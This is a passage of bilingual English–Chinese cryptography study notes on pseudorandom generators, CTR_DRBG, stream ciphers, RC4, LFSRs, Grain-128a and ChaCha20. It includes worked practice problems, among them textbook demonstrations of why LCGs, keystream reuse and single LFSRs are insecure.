\(X_2-X_1=21-26\equiv26\) and \(X_1-X_0=19\pmod{31}\). Since \(19\cdot18=342=11\cdot31+1\), \(19^{-1}\equiv18\). Hence \(a\equiv26\cdot18=468\equiv3\) and \(c\equiv X_1-aX_0=26-21=5\). Check: \(3\cdot21+5=68\equiv6=X_3\), and \(X_4=3\cdot6+5=23\). All later outputs are known, so an LCG must not produce keys or keystreams.\(X_2-X_1=21-26\equiv26\) 与 \(X_1-X_0=19\pmod{31}\)。由于 \(19\cdot18=342=11\cdot31+1\)，\(19^{-1}\equiv18\)。因此 \(a\equiv26\cdot18=468\equiv3\) 与 \(c\equiv X_1-aX_0=26-21=5\)。检验：\(3\cdot21+5=68\equiv6=X_3\)，且 \(X_4=3\cdot6+5=23\)。此后所有输出都已知，因此 LCG 不得用于生成密钥或密钥流。
Q2. (Trace) BBS with \(p=7\), \(q=11\), \(s=3\). Check the conditions, compute \(X_0,\dots,X_4\) and \(B_1,\dots,B_4\), and state the period.Q2.（手工演算）参数为 \(p=7\)、\(q=11\)、\(s=3\) 的 BBS。检验条件，计算 \(X_0,\dots,X_4\) 与 \(B_1,\dots,B_4\)，并给出周期。
Answer
\(7\equiv11\equiv3\pmod4\), \(n=77\), \(\gcd(3,77)=1\). \(X_0=9\), \(X_1=81\bmod77=4\), \(X_2=16\), \(X_3=256\bmod77=256-231=25\), \(X_4=625\bmod77=625-616=9=X_0\). Bits (parity of \(X_i\)): \(B_1,\dots,B_4=0,0,1,1\). The cycle \(9,4,16,25\) has length 4, so the bit pattern \(0011\) repeats; real primes are hundreds of digits long, which makes the cycle astronomically long.\(7\equiv11\equiv3\pmod4\)、\(n=77\)、\(\gcd(3,77)=1\)。\(X_0=9\)、\(X_1=81\bmod77=4\)、\(X_2=16\)、\(X_3=256\bmod77=256-231=25\)、\(X_4=625\bmod77=625-616=9=X_0\)。比特（\(X_i\) 的奇偶性）：\(B_1,\dots,B_4=0,0,1,1\)。循环 \(9,4,16,25\) 的长度为 4，因此比特模式 \(0011\) 会重复；实际使用的素数有数百位，这使循环长度大到难以想象。
Q3. (Beyond the pages) Show that \(a=5\), \(c=3\), \(m=16\), \(X_0=0\) has full period even though \(c\ne0\), and verify the conditions of the Hull–Dobell theorem. What can be said about the lowest output bit?Q3.（超出教材内容）证明 \(a=5\)、\(c=3\)、\(m=16\)、\(X_0=0\) 具有满周期（尽管 \(c\ne0\)），并验证 Hull–Dobell 定理的条件。关于最低位输出比特，可以得出什么结论？
Answer
The sequence is \(0,3,2,13,4,7,6,1,8,11,10,5,12,15,14,9\) and then \(0\) again: 16 distinct values, period \(16=m\). Conditions: \(\gcd(3,16)=1\); \(a-1=4\) is divisible by 2 (the only prime factor of 16) and by 4 (as \(4\mid16\)). Since \(a\) and \(c\) are odd and \(m\) is even, \(X_{n+1}\equiv X_n+1\pmod 2\): the lowest bit alternates \(0,1,0,1,\dots\) and is useless as a random bit.序列为 \(0,3,2,13,4,7,6,1,8,11,10,5,12,15,14,9\)，随后再次回到 \(0\)：共 16 个不同取值，周期为 \(16=m\)。条件：\(\gcd(3,16)=1\)；\(a-1=4\) 能被 2（16 的唯一素因子）整除，并能被 4 整除（因为 \(4\mid16\)）。由于 \(a\) 与 \(c\) 为奇数，\(m\) 为偶数，因此 \(X_{n+1}\equiv X_n+1\pmod 2\)：最低位交替出现 \(0,1,0,1,\dots\)，作为随机比特毫无用处。
Block-cipher PRNGs and CTR_DRBG ★★基于分组密码的 PRNG 与 CTR_DRBG
Goal. Say how a block cipher becomes a PRNG, give the CTR_DRBG parameters for a cipher, and explain how reseeding works.目标。说明分组密码如何变成 PRNG，给出某个密码的 CTR_DRBG 参数，并解释重新播种的工作方式。
In words: a block-cipher PRNG encrypts a counter or its own previous output, so each encryption gives a block of random-looking bits.用文字表述：分组密码 PRNG 对计数器或它自己的上一个输出进行加密，因此每次加密得到一个看起来随机的分组。
A block cipher's output shows no regularity, so a standardised cipher such as AES or 3DES is a natural core for a PRNG. Two modes of operation are widely accepted (Section 7.4): CTR, recommended by NIST SP 800-90A, and OFB. The seed is a pair of a key \(K\) and a value \(V\). For AES-128 that is 128 plus 128 bits. Here \(E(K,V)\) means "encrypt \(V\) under \(K\)". CTR counts \(V\) up. OFB feeds the previous output back as the next input.分组密码的输出没有规律，因此标准化的密码（如 AES 或 3DES）是 PRNG 的自然核心。两种工作模式被广泛接受（见第 7.4 节）：NIST SP 800-90A 推荐的 CTR，以及 OFB。种子是一对密钥 \(K\) 和一个值 \(V\)。对于 AES-128，这是 128 位加 128 位。这里 \(E(K,V)\) 表示“用 \(K\) 加密 \(V\)”。CTR 让 \(V\) 递增。OFB 把上一个输出反馈作为下一个输入。
CTR: while len(temp) < requested_bits:
V = (V + 1) mod 2^128
temp = temp || E(K, V)
OFB: while len(temp) < requested_bits:
V = E(K, V)
temp = temp || V
CTR_DRBG（计数器模式确定性随机比特发生器）of SP 800-90A is the CTR generator with a reseeding mechanism. It uses 3DES or AES and an entropy source, normally a TRNG. Four parameters define it.SP 800-90A 中的 CTR_DRBG 是带重新播种机制的 CTR 生成器。它使用 3DES 或 AES 以及一个熵源，熵源通常是 TRNG。它由四个参数定义。
| 3DES | AES-128 | AES-192 | AES-256 | |
|---|---|---|---|---|
| outlen (block size, bits)outlen（分组长度，比特） | 64 | 128 | 128 | 128 |
| keylen (key size, bits)keylen（密钥长度，比特） | 168 | 128 | 192 | 256 |
| seedlen (bits)seedlen（比特） | 232 | 256 | 320 | 384 |
reseed_interval (blocks) |
\(\le2^{32}\) | \(\le2^{48}\) | \(\le2^{48}\) | \(\le2^{48}\) |
reseed_interval is the maximum number of output blocks generated before new entropy must be added.reseed_interval 是在必须加入新熵之前可生成的最大输出分组数。


- Initialize or update. Start from any Key and \(V\). Intel uses \(K=0\) and \(V=0\). Run CTR mode, incrementing \(V\) after every encryption, until at least seedlen bits exist.初始化或更新。从任意 Key 和 \(V\) 开始。Intel 使用 \(K=0\) 和 \(V=0\)。运行 CTR 模式，每次加密后使 \(V\) 递增，直到至少得到 seedlen 比特。
- XOR the leftmost seedlen bits with exactly seedlen bits from the entropy source. This is the new seed. Its leftmost keylen bits become the Key and its rightmost outlen bits become \(V\).将最左边的 seedlen 比特与熵源提供的恰好 seedlen 比特异或。结果就是新的种子。它最左边的 keylen 比特成为 Key，最右边的 outlen 比特成为 \(V\)。
- Generate. Encrypt successive counter values under the same Key, one output block per encryption, incrementing \(V\) each time. A reseed counter starts at 1 and grows with every block.生成。在同一个 Key 下加密连续的计数器值，每次加密输出一个分组，每次把 \(V\) 递增。重新播种计数器从 1 开始，每输出一个分组就增加。
- Reseed. When the counter reaches
reseed_interval, the update runs again with the last Key and \(V\) and seedlen new entropy bits. Both Key and \(V\) change and generation resumes.重新播种。当计数器达到reseed_interval时，用最后一个 Key 和 \(V\) 以及 seedlen 个新的熵比特重新执行更新。Key 和 \(V\) 都会改变，然后继续生成。
Limiting the output per seed bounds the data an attacker sees under one key. Fresh entropy repairs a leaked state. The XOR of two independent strings is at least as unpredictable as the better of the two, so the new seed is secure if either the old state or the new entropy is unpredictable. At start-up all the security comes from the entropy input.限制每个种子的输出量，就限制了攻击者在同一密钥下能看到的数据量。新鲜熵能修复泄露的状态。两个独立字符串的异或，其不可预测性至少与较好的那一个相当，因此只要旧状态或新熵中有一个是不可预测的，新种子就是安全的。在启动时，全部安全性都来自熵输入。
Practice练习
Q1. (Calculation) For CTR_DRBG with AES-192 give outlen, keylen and seedlen, the number of entropy bits needed per reseed, and the maximum number of bits produced between reseeds. Repeat the last two items for 3DES.Q1.（计算）对于使用 AES-192 的 CTR_DRBG，给出 outlen、keylen 和 seedlen，每次重新播种所需的熵比特数，以及两次重新播种之间能够产生的最大比特数。对 3DES 重复最后两项。
Answer
AES-192: outlen 128, keylen 192, seedlen \(=128+192=320\) bits, so each reseed needs 320 entropy bits. Maximum output \(=2^{48}\cdot128=2^{55}\) bits \(=2^{52}\) bytes \(=4\) PiB. 3DES: seedlen \(=64+168=232\) bits; maximum output \(=2^{32}\cdot64=2^{38}\) bits \(=2^{35}\) bytes \(=32\) GiB.AES-192：outlen 128，keylen 192，seedlen \(=128+192=320\) 比特，因此每次重新播种需要 320 个熵比特。最大输出 \(=2^{48}\cdot128=2^{55}\) 比特，即 \(=2^{52}\) 字节，约 \(=4\) PiB。3DES：seedlen \(=64+168=232\) 比特；最大输出 \(=2^{32}\cdot64=2^{38}\) 比特，即 \(=2^{35}\) 字节，约 \(=32\) GiB。
Q2. (Explain) In CTR_DRBG initialization, what is XORed with what, which parts of the result become the Key and \(V\), and why is XOR used?Q2.（解释）在 CTR_DRBG 的初始化中，什么与什么异或？结果的哪些部分成为 Key 和 \(V\)？为什么使用异或？
Answer
The leftmost seedlen bits of the CTR-mode output (produced under the current Key and \(V\)) are XORed with seedlen bits from the entropy source. The leftmost keylen bits of the result are the new Key and the rightmost outlen bits are the new \(V\). XOR keeps the result unpredictable if at least one input is unpredictable and independent of the other: an old state that leaked is repaired by good entropy, and weak entropy does not weaken a good old state.CTR 模式输出（在当前 Key 和 \(V\) 下产生）的最左侧 seedlen 比特，与来自熵源的 seedlen 比特异或。结果的最左侧 keylen 比特即为新的 Key，最右侧 outlen 比特即为新的 \(V\)。只要至少有一个输入不可预测且与另一输入相互独立，异或就能保证结果不可预测：已泄露的旧状态可由良好的熵修复，而较弱的熵也不会削弱良好的旧状态。
Stream ciphers and RC4 ★★★流密码与 RC4
Goal. Describe a stream cipher and its requirements, show why a keystream must never be reused, and trace RC4 by hand.目标。描述流密码及其要求，说明为什么密钥流绝不能重用，并手工跟踪 RC4。
Step 1: the stream cipher第 1 步：流密码
In words: a stream cipher stretches a short key into a long keystream and XORs it with the data.用文字表述：流密码把一个短密钥扩展成一个长密钥流，再与数据异或。
A stream cipher（流密码）is the pseudorandom counterpart of the one-time pad. The generator has a secret state, which starts from the key and sometimes from an initialization vector (IV), a value that need not be secret but must be unique. Encryption is typically one byte at a time.流密码是一次一密的伪随机对应物。生成器有一个秘密状态，它从密钥开始，有时还需要初始向量（IV），IV 的值不必保密，但必须唯一。加密通常逐字节进行。
Example of the XOR step, with \(z\) standing for one keystream byte: the plaintext byte \(11001100\) and the keystream byte \(z=01101100\) give the ciphertext \(11001100\oplus01101100=10100000\). XOR with the same keystream byte restores \(10100000\oplus01101100=11001100\).异或步骤的例子，其中 \(z\) 表示一个密钥流字节：明文字节 \(11001100\) 与密钥流字节 \(z=01101100\) 得到密文 \(11001100\oplus01101100=10100000\)。再与相同的密钥流字节异或，就能恢复 \(10100000\oplus01101100=11001100\)。
The keystream generator should satisfy three requirements.密钥流生成器应满足三项要求。
- Large period: a deterministic generator eventually repeats, and a longer period makes cryptanalysis harder.大周期：确定性生成器最终会重复，周期越长，密码分析越困难。
- Random-looking output: about equally many 0s and 1s, and all 256 byte values about equally often.输出看似随机：0 与 1 的个数大致相等，且全部 256 个字节值出现的频率大致相同。
- Long key: the output depends on the key, so against brute force the key needs at least 128 bits.密钥要长：输出依赖于密钥，因此为抵御穷举攻击，密钥至少需要 128 比特。
With a good generator a stream cipher is as secure as a block cipher of the same key length.若生成器良好，则流密码的安全性与相同密钥长度的分组密码相当。
| Stream cipher流密码 | Block cipher分组密码 | |
|---|---|---|
| Speed and code速度与代码量 | usually faster, very little code (RC4: a few lines); suits constrained devices such as IoT sensors and RFID tags通常更快，代码量极少（RC4 仅需几行）；适用于物联网传感器、RFID 标签等受限设备 | AES is efficient in software and has hardware instructions (about 10 times faster)AES 在软件中高效，并具有硬件指令（速度约快 10 倍） |
| Key reuse密钥重用 | dangerous: a second message under the same keystream is attackable危险：同一密钥流下的第二条消息可被攻击 | allowed (with a fresh IV or nonce in the mode)允许（模式中需使用新的 IV 或 nonce） |
| Typical use典型应用 | continuous data: a communication channel, a browser-to-web link连续数据：通信信道、浏览器与网站之间的链接 | blocks of data: file transfer, e-mail, databases数据块：文件传输、电子邮件、数据库 |
Step 2: RC4第 2 步：RC4
In words: RC4 keeps a shuffled list of 256 bytes, shuffles it further with the key, and then outputs one byte per swap.用文字表述：RC4 保存一个打乱后的 256 字节列表，用密钥再进一步打乱它，然后每次交换输出一个字节。
RC4（RC4 流密码）is a byte-oriented stream cipher with a variable key of 1 to 256 bytes. Its state is a 256-byte vector \(S\) that always holds a permutation of \(0,\dots,255\). It is very fast in software and was used in WEP, WPA and TLS.RC4是面向字节的流密码，密钥长度可变，为 1 到 256 字节。它的状态是一个 256 字节的向量 \(S\)，始终保存 \(0,\dots,255\) 的一个置换。它在软件中非常快，曾用于 WEP、WPA 和 TLS。
Initialization. Set \(S[i]=i\) and \(T[i]=K[i\bmod\text{keylen}]\), that is, the key repeated to fill \(T\). Then scramble \(S\) with \(T\).初始化。设置 \(S[i]=i\) 和 \(T[i]=K[i\bmod\text{keylen}]\)，即把密钥重复到填满 \(T\)。然后用 \(T\) 打乱 \(S\)。
for i = 0 to 255: S[i] = i; T[i] = K[i mod keylen]
j = 0
for i = 0 to 255:
j = (j + S[i] + T[i]) mod 256
swap(S[i], S[j])
Stream generation. The key is not used again. \(S\) evolves by itself.生成流。密钥之后不再使用。\(S\) 自行演化。
i = j = 0
while true:
i = (i + 1) mod 256
j = (j + S[i]) mod 256
swap(S[i], S[j])
t = (S[i] + S[j]) mod 256
k = S[t] # next keystream byte
Encrypt by XORing \(k\) with the next plaintext byte. Decrypt by XORing it with the next ciphertext byte. Swaps are the only operation on \(S\), so it stays a permutation.加密时把 \(k\) 与下一个明文字节异或；解密时把它与下一个密文字节异或。交换是对 \(S\) 的唯一操作，因此它始终保持为一个置换。
How to do it by hand: 1. Write \(T\) and \(S=[0,1,\dots,N-1]\) with \(j=0\). 2. For each \(i\), update \(j=(j+S[i]+T[i])\bmod N\) and swap \(S[i]\) with \(S[j]\). 3. Set \(i=j=0\). For each output, update \(i=(i+1)\bmod N\) and \(j=(j+S[i])\bmod N\), swap, compute \(t=(S[i]+S[j])\bmod N\) and output \(S[t]\).手工做法：1. 写出 \(T\) 和 \(S=[0,1,\dots,N-1]\)，并给出 \(j=0\)。2. 对每个 \(i\)，更新 \(j=(j+S[i]+T[i])\bmod N\)，并交换 \(S[i]\) 和 \(S[j]\)。3. 设置 \(i=j=0\)。对每个输出，更新 \(i=(i+1)\bmod N\) 和 \(j=(j+S[i])\bmod N\)，交换，计算 \(t=(S[i]+S[j])\bmod N\) 并输出 \(S[t]\)。
Strength. RC4 is no longer considered safe. The key schedule is weak, and biases in the keystream let an attacker recover a plaintext that is encrypted many times. RFC 7465 (2015) prohibits RC4 in TLS. The attack on WEP exploited how its per-packet keys were built from the IV, not RC4 alone.安全性。RC4 已不再被认为是安全的。它的密钥调度很弱，而且密钥流中的偏差使攻击者能够恢复被多次加密的明文。RFC 7465（2015）禁止在 TLS 中使用 RC4。WEP 的攻击利用的是其逐包密钥由 IV 构造的方式，而不仅仅是 RC4 本身。
Practice练习
Q1. (Calculation) The plaintext bytes \(p_1=01001000\) and \(p_2=01001001\) are encrypted with the same keystream byte \(z=01101100\). Compute \(c_1\), \(c_2\) and \(c_1\oplus c_2\). What does an eavesdropper learn?Q1.（计算）明文字节 \(p_1=01001000\) 与 \(p_2=01001001\) 用同一个密钥流字节 \(z=01101100\) 加密。计算 \(c_1\)、\(c_2\) 和 \(c_1\oplus c_2\)。窃听者能得知什么？
Answer
\(c_1=p_1\oplus z=00100100\) and \(c_2=p_2\oplus z=00100101\), so \(c_1\oplus c_2=00000001=p_1\oplus p_2\). The keystream cancels: the eavesdropper learns that the plaintexts differ only in the last bit, and if \(p_1\) is known then \(p_2=c_1\oplus c_2\oplus p_1\).\(c_1=p_1\oplus z=00100100\) 与 \(c_2=p_2\oplus z=00100101\)，因此 \(c_1\oplus c_2=00000001=p_1\oplus p_2\)。密钥流相互抵消：窃听者得知两段明文仅在最后一位不同；若 \(p_1\) 已知，则 \(p_2=c_1\oplus c_2\oplus p_1\)。
Q2. (Trace) RC4 with 3-bit words (the state has \(N=8\) entries and all arithmetic is mod 8) and key \(K=[1,2,3,6]\). Give \(S\) after initialization and the first three keystream words.Q2.（手工演算）字长为 3 比特的 RC4（状态有 \(N=8\) 个条目，所有运算均模 8）且密钥为 \(K=[1,2,3,6]\)。给出初始化后的 \(S\) 以及前三个密钥流字。
Answer
\(T=[1,2,3,6,1,2,3,6]\), \(S=[0,1,2,3,4,5,6,7]\), \(j=0\) at the start.开始时的 \(T=[1,2,3,6,1,2,3,6]\)、\(S=[0,1,2,3,4,5,6,7]\)、\(j=0\)。
| \(i\) | \(j\) | \(S\) after the swap |
|---|---|---|
| 0 | 1 | 1 0 2 3 4 5 6 7 |
| 1 | 3 | 1 3 2 0 4 5 6 7 |
| 2 | 0 | 2 3 1 0 4 5 6 7 |
| 3 | 6 | 2 3 1 6 4 5 0 7 |
| 4 | 3 | 2 3 1 4 6 5 0 7 |
| 5 | 2 | 2 3 5 4 6 1 0 7 |
| 6 | 5 | 2 3 5 4 6 0 1 7 |
| 7 | 2 | 2 3 7 4 6 0 1 5 |
Stream generation from \(i=j=0\): \(i=1\), \(j=3\), swap gives \(S=[2,4,7,3,6,0,1,5]\), \(t=4+3=7\), \(k=S[7]=5\). \(i=2\), \(j=3+7=10\bmod8=2\) (swap with itself), \(t=7+7=14\bmod8=6\), \(k=S[6]=1\). \(i=3\), \(j=2+3=5\), swap gives \(S=[2,4,7,0,6,3,1,5]\), \(t=0+3=3\), \(k=S[3]=0\). The keystream words are \(5,1,0\).由 \(i=j=0\) 开始的流生成：\(i=1\)、\(j=3\)，交换后得到 \(S=[2,4,7,3,6,0,1,5]\)、\(t=4+3=7\)、\(k=S[7]=5\)。\(i=2\)、\(j=3+7=10\bmod8=2\)（与自身交换），\(t=7+7=14\bmod8=6\)、\(k=S[6]=1\)。\(i=3\)、\(j=2+3=5\)，交换后得到 \(S=[2,4,7,0,6,3,1,5]\)、\(t=0+3=3\)、\(k=S[3]=0\)。密钥流字为 \(5,1,0\)。
Q3. (Calculation) How many bits does the internal state of RC4 occupy (a) with a straightforward representation, (b) as information?Q3.（计算）RC4 的内部状态占用多少比特：(a) 采用直接表示时；(b) 以信息量计算时？
Answer
(a) \(S\) has \(256\cdot8=2048\) bits and the indices \(i\) and \(j\) add \(8+8\) bits: 2064 bits. (b) The number of states is \(256!\cdot256\cdot256\), so the information content is \(\log_2256!+16\approx1684+16=1700\) bits. The permutation carries almost all of it.(a) \(S\) 占 \(256\cdot8=2048\) 比特，索引 \(i\) 与 \(j\) 再增加 \(8+8\) 比特，共 2064 比特。(b) 状态数为 \(256!\cdot256\cdot256\)，因此信息量为 \(\log_2256!+16\approx1684+16=1700\) 比特。置换几乎承载了全部信息。
Shift-register ciphers, Grain-128a and ChaCha20 ★★移位寄存器密码、Grain-128a 与 ChaCha20
Goal. Trace a linear feedback shift register, explain why it is not a cipher on its own, and outline Grain-128a and ChaCha20.目标。跟踪一个线性反馈移位寄存器，说明为什么它本身不是一个密码，并概述 Grain-128a 和 ChaCha20。
Step 1: the linear feedback shift register第 1 步：线性反馈移位寄存器
In words: an LFSR outputs the rightmost bit, shifts right and puts the XOR of some tapped cells on the left.用文字表述：LFSR 输出最右边的比特，向右移位，并把若干抽头单元的异或结果放到左端。
A linear feedback shift register (LFSR)（线性反馈移位寄存器）is a shift register whose new bit uses only XOR.线性反馈移位寄存器（LFSR）是一种移位寄存器，其新比特只使用异或运算。
A feedback choice that reaches the period bound gives a maximal-length sequence (m-sequence)（最大长度序列）. The characteristic polynomial is \(P(X)=1+A_1X+A_2X^2+\cdots+A_nX^n\), where a tap on \(B_{n-i}\) contributes \(X^i\). The register gives an m-sequence if and only if \(P(X)\) is a primitive polynomial（本原多项式; Section 5.5). Conventions differ, so state the one you use and trace the register as drawn.达到周期上界的反馈选择给出最大长度序列（m 序列）。特征多项式为 \(P(X)=1+A_1X+A_2X^2+\cdots+A_nX^n\)，其中对 \(B_{n-i}\) 的抽头贡献 \(X^i\)。当且仅当 \(P(X)\) 是本原多项式（见第 5.5 节）时，寄存器给出 m 序列。不同的约定会有不同的写法，因此要说明你使用的约定，并按图中所示跟踪寄存器。
Step 2: why one LFSR is not a cipher第 2 步：为什么单个 LFSR 不是密码
In words: the feedback is linear, so a few known keystream bits give the rest.用文字表述：反馈是线性的，因此少量已知的密钥流比特就能推出其余部分。
If the taps are known, \(n\) consecutive keystream bits give the whole stream. If the taps are unknown, \(2n\) keystream bits suffice, because \(n\) linear equations then determine \(A_1,\dots,A_n\). Known plaintext supplies the bits, since keystream equals plaintext XOR ciphertext. Designers therefore add nonlinearity. In a nonlinear feedback shift register (NFSR)（非线性反馈移位寄存器）the feedback also contains AND terms, for example \(B_5=B_4\oplus B_3B_2\). An NFSR alone is unsuitable, since no theory bounds its period. It is paired with an LFSR of known period.如果抽头已知，\(n\) 个连续的密钥流比特就能给出整个流。如果抽头未知，则 \(2n\) 个密钥流比特就够了，因为 \(n\) 个线性方程随后便能确定 \(A_1,\dots,A_n\)。已知明文可以提供这些比特，因为密钥流等于明文异或密文。因此，设计者会加入非线性。在非线性反馈移位寄存器（NFSR）中，反馈还包含与运算项，例如 \(B_5=B_4\oplus B_3B_2\)。单独的 NFSR 并不合适，因为没有理论能约束它的周期。因此它要与一个周期已知的 LFSR 配合使用。
Step 3: Grain-128a第 3 步：Grain-128a
Grain-128a（Grain-128a 流密码）has a 128-bit key and a 96-bit IV. It couples a 128-bit LFSR with a 128-bit NFSR and a nonlinear filter.Grain-128a 有 128 位密钥和 96 位 IV。它把一个 128 位的 LFSR 与一个 128 位的 NFSR 和一个非线性滤波器结合在一起。
- The LFSR uses a primitive polynomial, so its period is at least \(2^{128}-1\) and its output is balanced.LFSR 使用本原多项式，因此其周期至少为 \(2^{128}-1\)，并且输出是平衡的。
- The NFSR has nonlinear feedback whose input is XORed with the LFSR output.NFSR 的反馈是非线性的，其输入与 LFSR 的输出异或。
- A filter \(h\) takes 9 bits from the two registers. The pre-output is \(h\) XORed with further register bits. The keystream is every second pre-output bit after the first 64.滤波器 \(h\) 从两个寄存器中取 9 个比特。预输出为 \(h\) 与其他寄存器比特异或的结果。密钥流取自前 64 位之后的每隔一个预输出比特。
- Initialization loads the key into the NFSR and the IV plus padding into the LFSR. The 256 state bits are clocked 256 times without output, while the pre-output is fed back into both registers.初始化时把密钥装入 NFSR，把 IV 加上填充装入 LFSR。256 个状态比特在不输出的情况下时钟运行 256 次，同时把预输出反馈到两个寄存器中。
The LFSR gives guaranteed period and balance. The NFSR with the filter gives the nonlinearity that defeats the linear attack.LFSR 提供有保证的周期和平衡性。NFSR 加上滤波器提供非线性，从而抵御线性攻击。
Step 4: ChaCha20第 4 步：ChaCha20
ChaCha20（ChaCha20 流密码）uses only 32-bit addition, XOR and rotation, an ARX design. These run in constant time on ordinary CPUs, which avoids timing attacks. ChaCha20 replaced RC4 in TLS. With the Poly1305 MAC it forms an authenticated-encryption scheme (Section 12.5).ChaCha20 只使用 32 位加法、异或和循环移位，这是一种 ARX 设计。这些运算在普通 CPU 上以恒定时间执行，因此可以避免时序攻击。ChaCha20 替代了 TLS 中的 RC4。它与 Poly1305 MAC 结合，构成一种认证加密方案（见第 12.5 节）。
The state is sixteen 32-bit words in a \(4\times4\) matrix: a 128-bit constant (words 0 to 3), the 256-bit key (words 4 to 11), a 32-bit block counter (word 12) and a 96-bit nonce (words 13 to 15).状态是一个 \(4\times4\) 矩阵，由十六个 32 位字组成：128 位常量（字 0 至 3）、256 位密钥（字 4 至 11）、32 位分组计数器（字 12）和 96 位一次性随机数（nonce，字 13 至 15）。

The quarter-round works on four words. In the code, += is addition modulo \(2^{32}\), ^= is XOR and <<<= is rotation to the left.四分之一轮作用于四个字。在代码中，+= 是模 \(2^{32}\) 的加法，^= 是异或，<<<= 是向左循环移位。
a += b; d ^= a; d <<<= 16
c += d; b ^= c; b <<<= 12
a += b; d ^= a; d <<<= 8
c += d; b ^= c; b <<<= 7
A double round applies the quarter-round to the four columns \((0,4,8,12)\), \((1,5,9,13)\), \((2,6,10,14)\), \((3,7,11,15)\) and then to the four diagonals \((0,5,10,15)\), \((1,6,11,12)\), \((2,7,8,13)\), \((3,4,9,14)\). The block function runs 10 double rounds, that is 20 rounds, and adds the result word by word to the initial state. This gives 64 bytes of keystream. The counter grows by 1 per block, so any block can be generated directly. The nonce must be unique for each stream under a key.双轮先把四分之一轮作用于四个列 \((0,4,8,12)\)、\((1,5,9,13)\)、\((2,6,10,14)\)、\((3,7,11,15)\)，再作用于四个对角线 \((0,5,10,15)\)、\((1,6,11,12)\)、\((2,7,8,13)\)、\((3,4,9,14)\)。分组函数运行 10 个双轮，即 20 轮，并把结果与初始状态逐字相加。这样得到 64 字节的密钥流。计数器每个分组递增 1，因此可以直接生成任意分组。在同一密钥下，每个流的 nonce 必须唯一。
Practice练习
Q1. (Trace) A 3-bit LFSR has \(B_3=B_2\oplus B_0\) and initial state \(B_2B_1B_0=100\). Give its output for 7 clocks, its period and its characteristic polynomial. Is the polynomial primitive?Q1.（手工演算）一个 3 比特 LFSR 具有 \(B_3=B_2\oplus B_0\)，初始状态为 \(B_2B_1B_0=100\)。给出其 7 个时钟内的输出、周期以及特征多项式。该多项式是否为本原多项式？
Answer
\(A_1=1\), \(A_2=0\), \(A_3=1\), so \(P(X)=1+X+X^3\). Each clock outputs \(B_0\) and inserts \(B_2\oplus B_0\) at the left: \(100\to110\to111\to011\to101\to010\to001\to100\), with outputs \(0,0,1,1,1,0,1\). The output \(0011101\) repeats after \(7=2^3-1\) clocks (a rotation of \(1110100\) from \(1/P(X)\)), so the polynomial is primitive.\(A_1=1\)、\(A_2=0\)、\(A_3=1\)，因此 \(P(X)=1+X+X^3\)。每个时钟输出 \(B_0\)，并在左端插入 \(B_2\oplus B_0\)：\(100\to110\to111\to011\to101\to010\to001\to100\)，输出为 \(0,0,1,1,1,0,1\)。输出 \(0011101\) 经过 \(7=2^3-1\) 个时钟后重复（即 \(1110100\) 是 \(1/P(X)\) 的一个循环移位），因此该多项式为本原多项式。
Q2. (Beyond the pages) An attacker knows that a 4-bit LFSR produced the keystream bits \(0,0,0,1,0,0,1,1\) but not its taps. Recover \(A_1,\dots,A_4\) and predict the next four bits.Q2.（超出教材内容）攻击者知道一个 4 比特 LFSR 生成了密钥流比特 \(0,0,0,1,0,0,1,1\)，但不知道其抽头。求出 \(A_1,\dots,A_4\)，并预测接下来的四个比特。
Answer
Use \(u_k=A_1u_{k-1}\oplus A_2u_{k-2}\oplus A_3u_{k-3}\oplus A_4u_{k-4}\) with \(u_0,\dots,u_7=0,0,0,1,0,0,1,1\). For \(k=4\): \(0=A_1\cdot1\), so \(A_1=0\). For \(k=5\): \(0=A_2\cdot1\), so \(A_2=0\). For \(k=6\): \(1=A_3\cdot1\), so \(A_3=1\). For \(k=7\): \(1=A_4\cdot1\), so \(A_4=1\). Thus \(u_k=u_{k-3}\oplus u_{k-4}\), i.e. \(B_4=B_1\oplus B_0\). The next bits are \(u_8=u_5\oplus u_4=0\), \(u_9=u_6\oplus u_5=1\), \(u_{10}=u_7\oplus u_6=0\), \(u_{11}=u_8\oplus u_7=1\). Eight bits of a 4-bit LFSR give four linear equations in four unknowns: \(2n\) bits break any LFSR.取 \(u_k=A_1u_{k-1}\oplus A_2u_{k-2}\oplus A_3u_{k-3}\oplus A_4u_{k-4}\) 与 \(u_0,\dots,u_7=0,0,0,1,0,0,1,1\)。对于 \(k=4\)：\(0=A_1\cdot1\)，因此 \(A_1=0\)。对于 \(k=5\)：\(0=A_2\cdot1\)，因此 \(A_2=0\)。对于 \(k=6\)：\(1=A_3\cdot1\)，因此 \(A_3=1\)。对于 \(k=7\)：\(1=A_4\cdot1\)，因此 \(A_4=1\)。于是 \(u_k=u_{k-3}\oplus u_{k-4}\)，即 \(B_4=B_1\oplus B_0\)。接下来的比特为 \(u_8=u_5\oplus u_4=0\)、\(u_9=u_6\oplus u_5=1\)、\(u_{10}=u_7\oplus u_6=0\)、\(u_{11}=u_8\oplus u_7=1\)。8 个比特给出关于 4 个未知数的 4 个线性方程：\(2n\) 个比特即可攻破任意 LFSR。
True random number generators ★★真随机数生成器
